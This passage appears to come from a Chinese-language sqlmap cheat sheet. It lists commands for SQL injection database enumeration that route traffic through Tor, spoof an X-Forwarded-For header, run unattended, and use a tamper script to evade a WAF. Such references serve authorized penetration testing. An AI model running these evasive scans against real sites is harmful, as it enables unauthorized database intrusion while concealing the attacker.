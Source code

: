 ### 通过 Tor 网络进行匿名测试

```bash
sqlmap -u "URL" --tor --tor-type=SOCKS5 --check-tor --dbs
```

### 使用自定义 HTTP 头进行测试

```bash
sqlmap -u "URL" --headers="X-Forwarded-For: 127.0.0.1" --dbs
```

### 批处理模式运行

```bash
sqlmap -u "URL" --dbs --batch
```

### 使用 Tamper 脚本绕过 WAF

```bash
sqlmap -u "URL" --dbs --tamper=space2comment
```

* * *